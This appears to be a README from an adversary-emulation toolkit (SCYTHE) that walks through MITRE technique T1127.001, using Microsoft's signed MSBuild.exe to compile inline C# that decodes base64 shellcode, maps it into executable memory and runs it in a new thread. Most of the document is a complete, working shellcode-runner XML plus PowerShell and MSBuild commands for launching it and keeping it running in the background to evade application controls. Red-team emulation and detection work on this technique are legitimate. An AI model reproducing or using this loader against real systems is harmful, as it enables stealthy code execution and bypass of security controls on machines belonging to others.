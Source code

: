 # T1127.001 - Trusted Developer Utilities Proxy Execution: MSBuild

This SCYTHE Compound Action leverages the native Windows utility MSBuild to execute malicious code. This is a LOLBAS attack that uses the MSBuild compiler to dynamically compile and execute C# code contained within an XML file to decode and run shellcode. The shellcode runs within the MSBuild.exe process. Since the MSBuild executable is digitally signed by Microsoft, this attack is also bypass of many common Application Controls. For more about abuse of MSBuild: https://attack.mitre.org/techniques/T1127/001/ 

## Obtaining the Shellcode

First, you must obtain shellcode that loads the malicious payload you wish to execute. In this Compound Action, we will use shellcode generated by SCYTHE.

Create a Campaign in the SCYTHE UI. Then, follow the instructions below depending on your version of SCYTHE.

### Pre-3.4

In the Campaign List, select the Campaign that you created to view its detailed page. Click the "More Actions..." dropdown menu, and select "Direct-Downloads Links". You will be shown a list of download links. Each is the SCYTHE client in a different executable format. To download the shellcode format, choose either the 32-bit or 64-bit "Reflective Loader DLL" link and paste it into your browser. The shellcode should begin downloading.

### 3.4

In the Campaign List, select the Campaign that you created to view its detailed page. Click the "Download" button. You will be shown a "Download Campaign Client" menu. Select your preferred architecture (64-bit or 32-bit) and "Shellcode + DLL" for the File Type. Click the Download SCYTHE Client button. The shellcode should begin downloading.

## Creating the Shellcode Runner

Transform the shellcode file into a Base64 format. You may do this however you like, but any easy method is the following:

1) Open a PowerShell prompt and use the following code to transform the .bin file into a Base64-string. 

    * Edit the path to the appropriate path for your .bin file.
    * Ensure you have double "\\\\" between directories in the string.
```powershell
$filename = "C:\\Users\\User\\Downloads\\test1_scythe_client32.bin"
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip
```
 
2) You will now have a large Base64 string in your clipboard that you may paste elsewhere. Create a new XML file with and paste the following into it:

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<!-- This inline task executes shellcode. This example XML file is modified from an example payload created by Casey Smith. It has been modified to support non-blocking shellcode loaders.-->
<!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
<!-- Save This File And Execute The Above Command -->
<!-- Authors: Casey Smith, Twitter: @subTee , The Wover-->
<!-- License: BSD 3-Clause -->
<Target Name="Run">
<ClassExample />
</Target>
<UsingTask
TaskName="ClassExample"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
        <Code Type="Class" Language="cs">
            <![CDATA[
            using System;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;
            public class ClassExample :  Task, ITask
            {         
                private static UInt32 MEM_COMMIT = 0x1000;
                private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

                [DllImport("kernel32")]
                private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

                [DllImport("kernel32")]
                private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

                [DllImport("kernel32")]
                private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

                public override bool Execute()
                {
                //replace with your own shellcode
                    string b64 = "YOmlAgAAW4PsKInliV0Ag8MAZKEwAAA.....AAAAAAAAAA=";
                    byte[] shellcode = System.Convert.FromBase64String(b64);
                    
                    UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                    Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
                    IntPtr hThread = IntPtr.Zero;
                    UInt32 threadId = 0;
                    IntPtr pinfo = IntPtr.Zero;
                    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);

                    // Loop endlessly to prevent the process from exiting
                    int x = 0;
                    for (int i = 0; i==i; i++) 
                    {
                        x = i;
                        x++;
                    }
                    return true;
                } 
            }     
            ]]>
            </Code>
        </Task>
    </UsingTask>
</Project>
```

3) Replace the existing base64 string with your own. 
    * Delete the text between the double quotes and the paste from your clipboard.
    * Make sure that there are no spaces or newlines inside of the string or between the double quotes.
4) Save the file as an XML file (such as msbuild.xml).
5) In your Powershell prompt, run the following command, replacing the path to the .XML file with your own:
    * `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe .\msbuild.xml`
    * The SCYTHE client should connect with your SCYTHE server
    * If the Powershell window is closed, connection will drop.
    * Alternative, you may run the following command to execute the code in the background so that you may safely close your Powershell prompt: `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe .\msbuild.xml &`
